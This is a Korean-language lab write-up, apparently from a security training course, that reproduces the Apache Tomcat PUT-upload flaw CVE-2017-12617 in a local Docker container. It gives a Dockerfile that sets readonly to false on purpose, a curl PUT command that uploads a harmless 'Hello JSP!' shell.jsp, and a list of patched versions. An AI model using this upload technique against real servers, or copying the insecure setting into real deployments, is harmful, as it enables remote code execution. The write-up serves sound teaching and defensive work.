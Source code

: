 # Apache Tomcat PUT Upload 취약점 (CVE-2017-12617)

> **PoC for Apache Tomcat Arbitrary Write-file Vulnerability via PUT Method**  
> **Tested on Apache Tomcat 7.0.81 (Windows 환경)**

## 화이트햇 스쿨 3기 35반 편정혜\_9212

## 전체 PoC 흐름 요약

1. 취약 환경 구축 (Dockerfile, docker-compose 이용)
2. curl을 이용해 JSP 파일(shell.jsp) 업로드
3. 브라우저를 통해 shell.jsp 실행 및 결과 확인

## 취약점 정보

- **CVE ID**: CVE-2017-12617
- **취약점 설명**: Apache Tomcat 7.0.0 ~ 7.0.81 (Windows 환경)에서 HTTP PUT 메서드를 이용해 인증 없이 JSP 파일 업로드 및 실행이 가능합니다.
  PUT 메서드는 서버에 파일을 직접 업로드할 수 있도록 허용하는 HTTP 메서드입니다.
  Tomcat 서버에서 PUT 메서드가 잘못 설정되어 있을 경우, 공격자는 인증 없이 웹 쉘(JSP 파일 등)을 업로드하고 실행할 수 있어 원격 코드 실행(RCE)로 이어질 수 있습니다.
  JSP 파일 업로드할 때 URL 끝에 슬래시(/) 붙여야 정상적으로 업로드가 됩니다. (/shell.jsp/)

  해당 취약점은 현재 [https://vulhub.org/](https://vulhub.org/)에 존재하는 취약점 CVE-2017-12615[https://github.com/vulhub/vulhub/tree/master/tomcat/CVE-2017-12615](https://github.com/vulhub/vulhub/tree/master/tomcat/CVE-2017-12615)과 차이점이 존재합니다.
  둘 다 JSP 업로드 -> 웹쉘 실행과 같은 시나리오이지만, CVE-2017-12617은 Windows만 타겟으로 하며, 업로드 시 URL 끝에 슬래시를 붙여야 합니다.

|   항목    |                     CVE-2017-12615                     |                                  CVE-2017-12617                                  |
| :-------: | :----------------------------------------------------: | :------------------------------------------------------------------------------: |
| 운영체제  |             모든 운영체제 (Linux, Windows)             |                                   Windows 전용                                   |
| 취약 내용 | HTTP PUT 메서드 활성화 시 JSP 파일 업로드 및 실행 가능 |         Windows 환경에서 HTTP PUT 메서드로 JSP 파일 업로드 및 실행 가능          |
| PoC 방식  |       JSP 파일 업로드 후 직접 접근 (/shell.jsp)        | JSP 파일 업로드할 때 URL 끝에 슬래시(/) 붙여야 정상적으로 업로드됨 (/shell.jsp/) |
| 발생 조건 |            PUT 메서드 허용 + 기본 설정 문제            |                 PUT 메서드 허용 + Windows 파일 시스템 특성 문제                  |
|   영향    |         인증 없이 JSP 파일 업로드 및 RCE 가능          |             인증 없이 JSP 파일 업로드 및 RCE 가능 (단, Windows 한정)             |

- **공격 방식**: HTTP PUT 메서드를 이용하여 JSP 파일 업로드 후 실행
- **영향**: 원격 코드 실행 (RCE)
- **공식 설명 링크**: [https://nvd.nist.gov/vuln/detail/CVE-2017-12617](https://nvd.nist.gov/vuln/detail/CVE-2017-12617)

## 환경 구축

- Docker
- docker-compose
- 테스트 브라우저: Chrome
- 터미널: CMD (또는 PowerShell)
- 운영체제: Windows 11

### Dockerfile

취약 대상인 Apache Tomcat 7.0.81 을 이용하였습니다.

```dockerfile
FROM tomcat:7.0.81-jre8

RUN cd /usr/local/tomcat/conf \
    && LINE=$(nl -ba web.xml | grep '<load-on-startup>1' | head -n 1 | awk '{print $1}') \
    && ADDON="<init-param><param-name>readonly</param-name><param-value>false</param-value></init-param>" \
    && sed -i "${LINE}i\\${ADDON}" web.xml
```

### docker-compose.yml

```docker-compose.yml
version: '3'
services:
  tomcat:
    build: .
    ports:
      - "8080:8080"
```

## 실행

### 1. 취약 환경 레포 클론

kr-vulhub 저장소를 클론하여 CVE-2017-12617로 이동합니다.

`git clone https://github.com/gunh0/kr-vulhub.git`

[https://github.com/gunh0/kr-vulhub](https://github.com/gunh0/kr-vulhub)

### 2. 컨테이너 빌드 및 실행

Docker를 이용하여 Tomcat 서버를 빌드 및 실행합니다.

`docker-compose up --build`

![server-build](./capture1.png)

이후 http://localhost:8080으로 접속이 가능합니다.

![server-start](./capture2.png)

### 3. shell.jsp 파일 업로드

Tomcat 서버의 PUT 메서드를 이용하여 JSP 파일을 업로드합니다.

`curl -v -X PUT "http://localhost:8080/shell.jsp/" --data-binary "<% out.println(\"Hello JSP!\"); %>"`

업로드가 정상적으로 완료되면 HTTP/1.1 201 Created 또는 204 No Content 응답을 받습니다.

![Shell-jsp](./capture3.png)

### 4. 브라우저로 JSP 파일 실행

브라우저의 주소창에 다음 URL을 입력하여 업로드 된 파일을 실행합니다.

`http://localhost:8080/shell.jsp`

업로드된 shell.jsp에 브라우저로 접속하면 다음과 같은 결과를 볼 수 있습니다.

**Hello JSP!**

![Hello-JSP](./capture4.png)

### 5. 주의사항

- curl 명령어 사용 시 끝에 슬래시(`/`)를 붙이지 않으면 업로드에 실패할 수 있습니다.
- Docker 컨테이너가 정상적으로 기동되지 않는 경우, 포트 충돌이나 Dockerfile 오류를 확인하세요.

### 6. 대응 방안

- Tomcat 9.x 사용자 → Apache Tomcat 9.0.1 버전 이상으로 업그레이드
- Tomcat 8.x 사용자 → Apache Tomcat 8.0.47 또는 8.5.23 버전 이상으로 업그레이드
- Tomcat 7.x 사용자 → Apache Tomcat 7.0.82 버전 이상으로 업그레이드

## 결론

이번 실습에서는 Apache Tomcat 7.0.81 버전의 PUT 메서드 취약점(CVE-2017-12617)을 이용하여 인증 없이 JSP 파일을 업로드하고 실행하는 과정을 재현하였습니다.
Docker를 이용해 취약 환경을 구축하였으며, curl 명령어를 통해 shell.jsp 파일을 업로드하고 브라우저에서 직접 "Hello JSP!" 문구가 출력되는 것을 확인했습니다.
이를 통해 Tomcat 서버의 설정 미비가 심각한 보안 위협(RCE)으로 이어질 수 있음을 실습을 통해 검증할 수 있었습니다.

---

### Github repository

- 35반 편정혜 github 레포: [https://github.com/rainyhye/kr-vulhub/tree/main/Tomcat/CVE-2017-12617](https://github.com/rainyhye/kr-vulhub/tree/main/Tomcat/CVE-2017-12617)
- 35반 편정혜 Pull Request 링크 : [https://github.com/gunh0/kr-vulhub/pull/285](https://github.com/gunh0/kr-vulhub/pull/285)
